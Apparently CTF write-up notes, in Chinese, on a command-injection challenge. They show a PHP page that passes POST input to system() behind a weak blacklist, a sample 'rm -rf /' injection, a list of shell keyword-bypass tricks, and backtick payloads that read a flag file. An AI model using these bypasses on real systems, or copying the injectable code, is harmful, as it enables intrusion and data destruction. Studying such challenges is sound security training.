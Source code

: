 # 05. Command Injection

```php
<?php if (isset($_POST['json'])) : ?>
    <section class="has-text-left">
        <p>Result:</p>
        <pre><?php
        $blacklist = ['|', '&', ';', "\n", '?', '*', '$', 'cat', 'flag'];
        $is_input_safe = true;
        foreach ($blacklist as $bad_word)
            if (strstr($_POST['json'], $bad_word) !== false) $is_input_safe = false;

        if ($is_input_safe)
            system("echo '" . $_POST['json'] . "'| jq .bocchi");
        else
            echo '<img src="nanana.gif"/>';
        ?></pre>
    </section>
<?php endif; ?>
```

這段 PHP 代碼的主要功能是處理來自表單 POST 請求的資料，並對資料進行安全性檢查和處理。

1. **條件檢查：**
   這段代碼開始於 `<?php if (isset($_POST['json'])) : ?>`，它首先檢查是否有名為 'json' 的資料以 POST 方式提交到這個網頁。

2. **顯示結果區域：**
   如果有 'json' 資料提交，就會進入下一個部分，其中包含了以下內容：

   - **設置黑名單：**
     ```php
     $blacklist = ['|', '&', ';', "\n", '?', '*', '$', 'cat', 'flag'];
     ```
     這行程式碼定義了一個 `$blacklist` 陣列，其中包含了一些可能會被用來試圖操縱系統的特殊字符或字串，例如命令注入字符 (`|`, `&`, `;` 等) 和特定字詞 (`cat`, `flag` 等)。

   - **安全性檢查：**
     ```php
     $is_input_safe = true;
     foreach ($blacklist as $bad_word) {
         if (strstr($_POST['json'], $bad_word) !== false) {
             $is_input_safe = false;
         }
     }
     ```
     使用 `foreach` 迴圈遍歷黑名單，檢查提交的 'json' 資料是否包含黑名單中的任何字符或字串。如果發現任何不安全的字詞，則會將 `$is_input_safe` 設置為 `false`。

   - **安全性處理和輸出：**
     ```php
     if ($is_input_safe) {
         system("echo '" . $_POST['json'] . "'| jq .bocchi");
     } else {
         echo '<img src="nanana.gif"/>';
     }
     ```
     如果提交的 'json' 資料通過安全性檢查 (`$is_input_safe` 是 `true`)，則會執行一個系統命令使用 `system()`。這個命令使用 'jq' 工具（一個命令行下的 JSON 處理器）從提交的 JSON 資料中提取 'bocchi' 鍵的值，並在 `<pre>` 標籤中顯示它。

   - **處理不安全的輸入：**
     如果輸入被判定為不安全（包含黑名單中的內容），則會顯示一張圖片 (`nanana.gif`)，以預防性方式取代執行 'jq' 命令，這樣做可以防止處理不安全的輸入可能帶來的安全風險。


在命令注入（Command Injection）中，反引号（`` ` ``）或反撇号（`'`）通常用于执行 shell 命令的语法。这种语法允许将命令的输出嵌入到另一个命令中，或者在某些上下文中执行任意的操作系统命令。

在许多命令行环境中，反引号用于执行命令并返回结果。例如，在类Unix系统的shell中，你可以使用反引号来执行命令，如：

```bash
output=`ls -l`
```

在这个例子中，`ls -l` 命令的输出将被存储在 `output` 变量中。

在命令注入漏洞中，如果应用程序使用用户提供的输入并直接将其传递到命令解释器而没有适当的验证或过滤，攻击者可以插入恶意命令并执行。例如，假设一个应用程序使用了类似以下的代码：

```python
command = 'ping ' + user_input  # 潜在的命令注入漏洞
os.system(command)
```

如果 `user_input` 被恶意构造为 `'127.0.0.1; rm -rf /'`，那么由于缺乏适当的输入验证和过滤，`os.system` 将执行以下命令：

```bash
ping 127.0.0.1; rm -rf /
```

这将执行 `ping` 命令并立即删除文件系统上的所有内容（`rm -rf /` 是一个危险的命令，会删除整个文件系统）。

因此，反引号（`` ` ``）或反撇号（`'`）在命令注入中可能被利用来嵌入恶意命令，从而以应用程序的权限在系统上执行各种危险操作。防止命令注入的一种方法是始终对用户输入进行适当的验证、转义或过滤，以确保输入不会被误解为命令执行。

## Keyword繞過 [^1]

- String Concat
    - `A=fl;B=ag;cat $A$B`
- Empty Variable
    - `cat fl${x}ag`
    - `cat tes$(z)t/flag`
    
- Environment Variable
    - `$PATH => "/usr/local/….blablabla”`
        - `${PATH:0:1}   => '/'`
        - `${PATH:1:1}   => 'u'`
        - `${PATH:0:4}   => '/usr'`
    - `${PS2}` 
        - `>`
    - `${PS4}`
        - `+`
- Empty String
    - `cat fl""ag`
    - `cat fl''ag`
        - `cat "fl""ag"`

- 反斜線
    - `c\at fl\ag`

```py
'''
is_input_safe
'''
json_to_send = '{"tenshi": "Ijichi Nijika", "bocchi": "Goto Hitor-"}'
json_to_send = '{"bocchi": "Goto Hitor-"}'

'''
is_input_safe but not show anything in <pre> tag
'''
json_to_send = '{"tenshi": "Ijichi Nijika", %%"bocchi"%%: "Goto Hitor-"}'
json_to_send = '{"tenshi": "Ijichi Nijika", %%"bocchi"%%```: "Goto Hitor-"'
json_to_send = '{"tenshi": "Ijichi Nijika", %%"bocchi"%%```: "Goto Hitor-"'
json_to_send = '{bocchi: "Goto Hitori"}'
json_to_send = '{bocchi: Goto Hitori}'
json_to_send = '{"bocchi": "Goto Hitor-"}'


json_to_send = '''{"bocchi":"'`tac f[l]ag`'"}'''
json_to_send = '''{"bocchi":"'`c\at fl\ag"}'''
json_to_send = '''{"tenshi": "Ijichi Nijika", "bocchi":"'`tac f[l]ag`'"}'''
json_to_send = '''{"bocchi":"'`tac f[l]ag`'"}'''
```


[^1]: [Command Injection#keyword 繞過](https://github.com/w181496/Web-CTF-Cheatsheet?tab=readme-ov-file#command-injection)

